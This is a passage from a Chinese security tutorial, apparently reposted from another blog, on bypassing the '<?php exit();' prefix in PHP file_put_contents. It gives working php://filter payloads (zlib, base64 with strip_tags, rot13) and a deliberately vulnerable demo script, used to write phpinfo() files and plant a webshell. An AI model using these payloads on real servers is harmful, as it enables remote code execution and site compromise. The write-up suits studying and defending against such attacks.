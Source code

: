 可以看到成功写入。

不过因为  `string.strip_tags`的原因，这个方法在PHP7版本还是会有局限性，但是在PHP5环境下是适用的。

另一种方式，针对PHP7环境下：

`filename=php://filter/write=zlib.deflate|string.tolower|zlib.inflate/resource=5.php&content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0dphpinfo();?>/resource=5.php`  

压缩、转小写、解压，消去死亡exit，成功带入我们的 webshell

![2.png](https://i.loli.net/2020/12/03/opFIQ86Nwlgsfzc.png)

再来看看demo2 ~

### demo2

```php
<?php
 highlight_file(__FILE__);
 $content=$_GET['content'];
 file_put_contents($content,"<?php exit();".$content);
?>
```

这个相较于demo1区别是，同一变量。

#### 利用base64

一开始还是想到使用base64编码：

`?content=php://filter/write/convert.base64-decode/resource=1.phpPD9waHAgcGhwaW5mbygpOz8+` 拼接后内容就是

`<?php exit();php://filter/write/convert.base64-decode/resource=1.phpPD9waHAgcGhwaW5mbygpOz8+` 但是没有成功，因为'='在base64编码中代表结束，所以等号后面还接上字母，会报错，转码不出来。

所以这里可以结合 `string.strip_tags` 来去掉等号：

`?content=php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8+.php`

在windows下，这种文件名的存在是很怪异的，但是在linux下测试是可行的：

![3.png](https://i.loli.net/2020/12/03/nm3TNrAQzf5bOEM.png)

当然这个方式还是针对于PHP5

`?content=php://filter/write=string.rot13|<?cuc cucvasb();?>/resource=7.php`

这里我们传过去可以看到：

![4.png](https://i.loli.net/2020/12/03/mKYV2hBXDQvZrgJ.png)

访问 7.php文件，可以看到 phpinfo文件，同理我们可以构造shell

#### 利用rot13

这里我们依然可以利用rot13，`?content=php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=8.php` 


[转自Myon9s大佬的博客]: http://myangswhitehat.cn/	"http://myangswhitehat.cn/"